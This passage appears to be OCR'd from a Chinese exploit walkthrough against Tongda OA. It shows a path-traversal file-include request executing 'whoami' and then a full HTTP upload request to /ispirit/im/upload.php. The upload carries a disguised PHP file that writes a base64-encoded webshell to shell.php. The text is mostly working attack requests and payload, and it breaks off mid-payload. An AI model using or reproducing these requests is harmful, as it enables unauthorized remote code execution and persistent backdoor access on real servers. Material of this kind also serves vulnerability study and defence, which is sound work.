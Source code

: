 ```
json={"url":"/general/../../attach/im/2104/2141129852.jpg"}&cmd=whoami
```

查看到命令被成功执行了！

![image-20210408161457971](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210408161457971.png)



#### Getshell

前台任意文件上传漏洞：抓取任意数据包，修改数据包进行重放，上传后缀为jpg的木马文件（木马文件执行写入文件操作，写一个新的木马脚本：shell.php）

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.16.112:8080
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Connection: close
Content-Length: 1398

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$fp = fopen('shell.php', 'w');
$a = base64_decode("PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKc2Vzc2lvbl9zdGFydCgpOwppZiAoaXNzZXQoJF9HRVRbJ3Bhc3MnXSkpCnsKICAgICRrZXk9c3Vic3RyKG1kNSh1bmlxaWQocmFuZCgpKSksMTYpOwogICAgJF9TRVNTSU9OWydrJ109JGtleTsKICAgIHByaW50ICRrZXk7Cn0KZWxzZQp7CiAgICAka2V5PSRfU0VTU0lPTlsnayddOwoJJHBvc3Q9ZmlsZV9nZXRfY29udGVudHMoInBocDovL2lucHV0Iik7CglpZighZXh0ZW5zaW9uX2xvYWRlZCgnb3BlbnNzbCcpKQoJewoJCSR0PSJiYXNlNjRfIi4iZGVjb2RlIjsKCQkkcG9zdD0kdCgkcG9zdC  ﻿
```